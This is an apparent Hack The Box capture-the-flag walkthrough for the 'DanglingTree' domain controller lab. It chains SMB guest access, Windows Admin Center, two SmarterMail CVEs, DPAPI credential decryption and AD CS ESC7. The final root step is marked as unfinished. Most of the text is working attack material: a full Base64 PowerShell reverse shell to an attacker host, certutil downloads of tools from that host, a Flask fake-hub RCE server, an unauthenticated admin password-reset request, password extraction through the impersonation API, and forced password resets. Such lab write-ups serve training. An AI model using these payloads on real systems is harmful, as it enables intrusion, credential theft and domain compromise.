





# HTB DanglingTree Walkthrough

DanglingTree is a medium-difficulty Windows machine that demonstrates how multiple low-severity vulnerabilities chain together for full domain compromise. The attack path traverses SMB misconfiguration, Windows Admin Center, two critical SmarterMail CVEs, DPAPI credential theft, and AD CS privilege escalation.

!!! info "Attack Chain"
    ```
    SMB Guest Access → RoE Credentials (anderson.w)
      → Windows Admin Center → Shell on DC
        → SmarterMail Discovery (localhost:17017) → Port Forward
          → CVE-2026-23760 (Auth Bypass) + CVE-2026-24423 (RCE) → Shell as svc_mail
            → Backup Domain → Impersonation API → noah.b password
              → user.txt → DPAPI → alex.o credentials
                → ForceChangePassword → jake.h
                  → AD CS ESC7 → Administrator → root.txt
    ```

---

## Reconnaissance

### Full Port Scan

```shell
nmap -sS -T4 -p- -Pn --min-rate 5000 -oA full_tcp 10.129.27.105
```

```text
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
6600/tcp  open  mshvlm
9389/tcp  open  adws
49664/tcp open  unknown
49675/tcp open  unknown
49678/tcp open  unknown
49679/tcp open  unknown
49680/tcp open  unknown
49690/tcp open  unknown
49708/tcp open  unknown
49724/tcp open  unknown
49755/tcp open  unknown
```

The port profile immediately identifies a **Domain Controller** — DNS (53), Kerberos (88), LDAP (389/636), Global Catalog (3268/3269), ADWS (9389). Three ports stand out as unusual for a DC: **80**, **443**, and **6600**.

| Port | Service | Why It Matters |
|------|---------|----------------|
| 53 | DNS | AD-integrated DNS |
| 88 | Kerberos | Authentication |
| 389/636 | LDAP/LDAPS | Directory services |
| 445 | SMB | File sharing — often misconfigured |
| 3268/3269 | Global Catalog | Multi-domain queries |
| **80/443** | IIS + AD CS | Certificate Services web enrollment |
| **6600** | WAC | Windows Admin Center — PowerShell access |

### Targeted Service Scan

```shell
nmap -sV -sC -A -p 80,443,6600 -Pn -oA detailed 10.129.27.105
```

```text
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
443/tcp  open  ssl/https?
| ssl-cert: Subject: commonName=danglingtree-DC-CA
6600/tcp open  ssl/mshvlm?
| ssl-cert: Subject: commonName=dc.danglingtree.htb
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 403 Forbidden
|     Set-Cookie: WAC-SESSION=e1937d090d9f44a195f238193449cfe7; ...
```

!!! note
    Port 443's SSL certificate (`danglingtree-DC-CA`) confirms **AD CS** is installed. Port 6600's `WAC-SESSION` cookie identifies **Windows Admin Center** — a web-based management tool that exposes PowerShell to authenticated users.

---

## Windows Admin Center

Browsing to port 6600 reveals the WAC login:



No credentials yet. WAC becomes relevant once we find valid domain accounts.

---

## Environment Setup

```shell
# DNS resolution
echo '10.129.27.105    dc.danglingtree.htb danglingtree.htb danglingtree dc' | sudo tee -a /etc/hosts

# Kerberos configuration
netexec smb 10.129.27.105 -u null -p '' --generate-krb5 krb5.conf
sudo mv krb5.conf /etc/krb5.conf

# Time sync (Kerberos tolerates ±5 minutes)
sudo ntpdate 10.129.27.105
```

---

## SMB — Guest Access and Credential Discovery

### Share Enumeration

```shell
netexec smb 10.129.27.105 -u null -p '' --shares
```

```text
SMB         10.129.27.105    445    DC               Share           Permissions     Remark
SMB         10.129.27.105    445    DC               ADMIN$                          Remote Admin
SMB         10.129.27.105    445    DC               C$                              Default share
SMB         10.129.27.105    445    DC               IPC$            READ            Remote IPC
SMB         10.129.27.105    445    DC               IT              READ            
SMB         10.129.27.105    445    DC               NETLOGON                        Logon server share 
SMB         10.129.27.105    445    DC               SYSVOL                          Logon server share 
```

The **IT** share allows unauthenticated read access — a common misconfiguration where shares are left with guest permissions after initial setup.

### Data Exfiltration

```shell
smbclient //10.129.27.105/IT -U null -N
```

```text
smb: \Security\> ls
  DanglingTree_RoE_Assessment.pdf      A    28905  Sat Apr  4 21:20:23 2026

smb: \Security\> get DanglingTree_RoE_Assessment.pdf
```

The PDF is a **Rules of Engagement** document from a prior grey-box assessment. It contains initial test credentials left behind after the engagement:



!!! success "Credentials Recovered"
    - **Username:** `anderson.w`
    - **Password:** `R3dT3am@Acc3ss#01`

**Why this works:** Organizations frequently forget to revoke test accounts or remove assessment documentation from shared drives after security engagements conclude.

---

## Initial Access — Windows Admin Center Shell

The recovered credentials grant access to WAC on port 6600:



### Weaponizing the WAC API

WAC's PowerShell terminal is backed by a REST API. Intercepting the request in Burp reveals the `invokeCommand` endpoint:



Injecting a Base64-encoded PowerShell reverse shell into the `script` field:

```powershell
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA1AC4AMgAwADMAIgAsADQANAA0ADQAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG5AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```

```text
listening on [any] 4444 ...
connect to [10.10.15.203] from (UNKNOWN) [10.129.27.105] 52567

PS C:\WINDOWS\system32>
```

!!! success "Foothold"
    Shell as `anderson.w` on the Domain Controller.

---

## Post-Exploitation — Limited User

```powershell
whoami /priv
```

```text
Privilege Name                Description                    State  
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

No exploitable privileges. PowerUp and LaZagne find nothing actionable. However, filesystem enumeration reveals a non-standard directory:

```text
d-----         3/26/2026   1:59 PM                SmarterMail
```

---

## Pivoting to SmarterMail

### Internal Service Discovery

SmarterMail's management API listens on **localhost:17017** by default — invisible to external scans:

```powershell
netstat -ano | findstr 17017
```

```text
  TCP    0.0.0.0:17017          0.0.0.0:0              LISTENING       6608
```

### Port Forwarding with Chisel

Since the API is localhost-only, set up a reverse port forward:

```powershell
certutil -urlcache -split -f http://10.10.15.203/chisel.exe chisel.exe
```

Attacker side:

```shell
chisel server -p 4445 --reverse
```

Target side:

```powershell
.\chisel.exe client 10.10.15.203:4445 R:17017:127.0.0.1:17017
```

SmarterMail is now accessible at `http://127.0.0.1:17017` on the attacker machine:



---

## CVE-2026-23760 — SmarterMail Authentication Bypass

### Version Fingerprint

Page source reveals:

```javascript
var stProductBuild = "9504 (Jan 8, 2026)";
```

Build **9504** is vulnerable to **CVE-2026-23760** (patched in build 9511). The `/api/v1/auth/force-reset-password` endpoint ignores the old password, allowing unauthenticated sysadmin password resets.

### Exploitation

```shell
SM_BASE='http://127.0.0.1:17017'

curl -X POST "$SM_BASE/api/v1/auth/force-reset-password" \
  -H 'Content-Type: application/json' \
  -d '{"IsSysAdmin":"true","OldPassword":"whatever","Username":"svc_mail","NewPassword":"NewPassword123!@#","ConfirmPassword":"NewPassword123!@#"}'
```

```json
{"success":true,"resultCode":200}
```

### API Token

```shell
SM_TOKEN=$(curl -sX POST "$SM_BASE/api/v1/auth/authenticate-user" \
  -H 'Content-Type: application/json' \
  -d '{"username":"svc_mail","password":"NewPassword123!@#"}' | jq -r '.accessToken')
```

### Domain Enumeration

```shell
curl -sX GET "$SM_BASE/api/v1/settings/sysadmin/domains" \
  -H "Authorization: Bearer $SM_TOKEN" | jq
```

```json
{
  "data": [{
    "name": "danglingtree.htb",
    "path": "C:\\SmarterMail\\Domains\\danglingtree.htb",
    "userCount": 1,
    "status": "Enabled"
  }],
  "success": true
}
```

Only 1 user in the active domain. Dead end via the API alone — need direct filesystem access.

---

## CVE-2026-24423 — SmarterMail ConnectToHub RCE

The same build is also vulnerable to **CVE-2026-24423**: the `connect-to-hub` endpoint lets SmarterMail connect to an attacker-controlled server, which responds with a `CommandMount` payload that gets executed.

### Exploit Server

```python title="hub.py"
from flask import Flask, jsonify
import uuid

app = Flask(__name__)
PAYLOAD = "powershell -e <BASE64_REVERSE_SHELL_TO_PORT_4446>"
counter = 0

@app.route('/web/api/node-management/setup-initial-connection', methods=['POST'])
def hub():
    global counter
    counter += 1
    return jsonify({
        "ClusterID": str(uuid.uuid4()),
        "SharedSecret": str(uuid.uuid4()),
        "TargetHubs": {"a": "b"},
        "IsStandby": False,
        "SystemMount": {
            "Enabled": True,
            "ReadOnly": False,
            "MountPath": f"C:\\Windows\\Temp\\mnt{counter}",
            "CommandMount": PAYLOAD,
            "UseArgumentsInCommand": False
        },
        "SystemAdminUsernames": ["admin"]
    })

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8081)
```

### Trigger

```shell
# Terminal 1: Fake hub
python3 hub.py

# Terminal 2: Listener
nc -lvnp 4446

# Terminal 3: Trigger
curl -X POST 'http://127.0.0.1:17017/api/v1/settings/sysadmin/connect-to-hub' \
  -H 'Content-Type: application/json' \
  -d '{"hubAddress":"http://10.10.15.203:8081/","oneTimePassword":"test","nodeName":"victim"}'
```

```text
listening on [any] 4446 ...
connect to [10.10.15.203] from (UNKNOWN) [10.129.27.105] 51534

PS C:\Program Files (x86)\SmarterTools\SmarterMail\Service\Settings>
```

!!! success "Privilege Escalation"
    Shell as the **SmarterMail service account** (`svc_mail`), with full access to mail data directories.

---

## Backup Domain — User Discovery

```powershell
ls C:\SmarterMail\Domains
```

```text
d-----         8/19/2026   6:43 PM                danglingtree.htb
d-----         8/19/2026   6:59 PM                danglingtree.htb.bak
```

The `.bak` directory is a **backup domain** containing 7 users:

```powershell
ls C:\SmarterMail\Domains\danglingtree.htb.bak\Users
```

```text
d-----         3/26/2026   2:02 PM                amelia.r
d-----         8/19/2026   6:54 PM                emma.s
d-----         8/19/2026   6:54 PM                liam.m
d-----         8/19/2026   6:59 PM                noah.b
d-----         8/19/2026   6:54 PM                oliver.t
d-----         8/19/2026   6:54 PM                sophia.k
d-----         8/19/2026   6:54 PM                svc_mail
```

---

## Password Extraction via Impersonation API

SmarterMail's sysadmin API can reveal user passwords through impersonation. The API only operates on the **currently mounted domain**.

!!! warning "Community Edition Limitation"
    Only one domain can be active at a time. Detach `danglingtree.htb` and attach `danglingtree.htb.bak` via the web interface before proceeding.

With the backup domain mounted:

```shell
# Fresh token
SM_TOKEN=$(curl -sX POST "$SM_BASE/api/v1/auth/authenticate-user" \
  -H 'Content-Type: application/json' \
  -d '{"username":"svc_mail","password":"NewPassword123!@#"}' | jq -r '.accessToken')

# Impersonate noah.b
IMPERSONATE_TOKEN=$(curl -sX POST "$SM_BASE/api/v1/settings/domain/impersonate-user/" \
  -H "Authorization: Bearer $SM_TOKEN" \
  -H 'X-SmarterMailDomain: danglingtree.htb.bak' \
  -H 'Content-Type: application/json' \
  -d '{"email":"noah.b@danglingtree.htb.bak"}' | jq -r '.impersonateAccessToken')

# Extract password
curl -sX POST "$SM_BASE/api/v1/settings/domain/show-password/" \
  -H "Authorization: Bearer $SM_TOKEN" \
  -H 'Content-Type: application/json' \
  -d "{\"token\":\"$IMPERSONATE_TOKEN\",\"emailAddress\":\"noah.b@danglingtree.htb.bak\"}"
```

```json
{"password":"RiverDragon#Storm25","appPasswords":[],"success":true,"message":""}
```

!!! success "Credentials"
    `noah.b` : `RiverDragon#Storm25`

---

## user.txt

Use RunasCs to spawn a shell as noah.b:

```powershell
certutil.exe -urlcache -split -f http://10.10.15.203/RunasCs/RunasCs.exe
.\RunasCs.exe noah.b RiverDragon#Storm25 powershell.exe -r 10.10.15.203:4447 --bypass-uac
```

User flag at `C:\Users\noah.b\Desktop\user.txt`.

---

## DPAPI — Extracting alex.o Credentials

### Stored Credentials Discovery

```powershell
cmdkey /list
```

```text
Currently stored credentials:

    Target: Domain:target=PC01.danglingtree.htb
    Type: Domain Password
    User: alex.o
```

Noah has a stored credential for `alex.o` in Windows Credential Manager. DPAPI protects these blobs with the user's password — which we already have.

### Export Credential Blob and Master Key

```powershell
# Credential blob
[Convert]::ToBase64String([IO.File]::ReadAllBytes("$env:APPDATA\Microsoft\Credentials\57FFB67D684C67F09E7153B9C7CC3940"))

# Master key (GUID matches the blob's reference)
[Convert]::ToBase64String([IO.File]::ReadAllBytes("$env:APPDATA\Microsoft\Protect\S-1-5-21-4220238332-57023728-1129110646-1602\f53fcaba-f057-48e8-8f92-0180d274bf0f"))
```

Decode on the attacker box:

```shell
echo "<BASE64_CREDENTIAL>" | base64 -d > credential_blob
echo "<BASE64_MASTERKEY>" | base64 -d > master_key
```

### Decrypt Master Key

```shell
impacket-dpapi masterkey -file master_key \
  -sid S-1-5-21-4220238332-57023728-1129110646-1602 \
  -password 'RiverDragon#Storm25'
```

```text
Decrypted key with User Key (MD4 protected)
Decrypted key: 0x7120d9adb3b8ccd8901bf9e2a29afabcbbcbdb5a13a24a1817bda49097c7ff3c8e5d71f34ae43850a136dc64dbd37061d4f9c34bdbdca21aa8af57d26baad0d8
```

### Decrypt Credential Blob

```shell
impacket-dpapi credential -file credential_blob \
  -key '0x7120d9adb3b8ccd8901bf9e2a29afabcbbcbdb5a13a24a1817bda49097c7ff3c8e5d71f34ae43850a136dc64dbd37061d4f9c34bdbdca21aa8af57d26baad0d8'
```

```text
[CREDENTIAL]
Target      : Domain:target=PC01.danglingtree.htb
Username    : alex.o
Unknown     : SunsetMountainPeak@2025
```

!!! success "Credentials"
    `alex.o` : `SunsetMountainPeak@2025`

---

## ForceChangePassword — alex.o to jake.h

BloodHound reveals that `alex.o` (via the `SUPPORT-IT` group) has **ForceChangePassword** rights over `jake.h`. This ACE allows resetting jake.h's password without knowing the current one.

```shell
bloodyad -d danglingtree.htb -u alex.o -p 'SunsetMountainPeak@2025' \
  --host dc.danglingtree.htb set password jake.h 'Welcome@1234'
```

```text
[+] Password changed successfully!
```

!!! success "Credentials"
    `jake.h` : `Welcome@1234`

---

## jake.h — AD CS Enumeration

### Writable Objects

```shell
bloodyad -d danglingtree.htb -u jake.h -p 'Welcome@1234' \
  --host dc.danglingtree.htb get writable
```

```text
distinguishedName: CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=danglingtree,DC=htb
permission: CREATE_CHILD

distinguishedName: CN=OID,CN=Public Key Services,CN=Services,CN=Configuration,DC=danglingtree,DC=htb
permission: CREATE_CHILD
```

jake.h can **create objects** in both the Certificate Templates and OID containers — the exact permissions needed to forge a certificate template.

### Certipy Scan

```shell
certipy-ad find -stdout -vulnerable -dc-ip 10.129.27.105 -u jake.h -p 'Welcome@1234'
```

```text
Certificate Authorities
  0
    CA Name                             : danglingtree-DC-CA
    Permissions
      Access Rights
        ManageCertificates              : DANGLINGTREE.HTB\Helpdesk_Cert_Support
    [+] User ACL Principals             : DANGLINGTREE.HTB\Helpdesk_Cert_Support
    [!] Vulnerabilities
      ESC7                              : User has dangerous permissions.
Certificate Templates                   : [!] Could not find any certificate templates
```

**ESC7** — jake.h (via `Helpdesk_Cert_Support`) has `ManageCertificates` rights on the CA. This means he can approve pending certificate requests, effectively bypassing enrollment controls.

---

## Privilege Escalation — AD CS (Work in Progress)

!!! warning "Work in Progress"
    The root path via AD CS ESC7 exploitation is still being finalized. The remaining steps involve:
    
    1. Configuring the CA to require manager approval on a template
    2. Requesting a certificate as Administrator (request goes pending)
    3. Approving the pending request using jake.h's ManageCertificates right
    4. Retrieving the issued certificate
    5. PKINIT authentication → Administrator NT hash
    6. Reading root.txt via SMB

    This section will be completed once the exploitation is finalized.

---

## Progress Summary

| Step | User | Technique | Result |
|------|------|-----------|--------|
| 1 | — | SMB Guest Access | RoE document with `anderson.w` creds |
| 2 | anderson.w | Windows Admin Center | Shell on DC |
| 3 | anderson.w | Internal service discovery | SmarterMail on localhost:17017 |
| 4 | — | CVE-2026-23760 | Sysadmin password reset |
| 5 | svc_mail | CVE-2026-24423 | Shell as mail service account |
| 6 | svc_mail | Impersonation API | `noah.b` plaintext password |
| 7 | noah.b | DPAPI extraction | `alex.o` credentials |
| 8 | alex.o | ForceChangePassword | `jake.h` password reset |
| 9 | jake.h | AD CS ESC7 | **In Progress** |
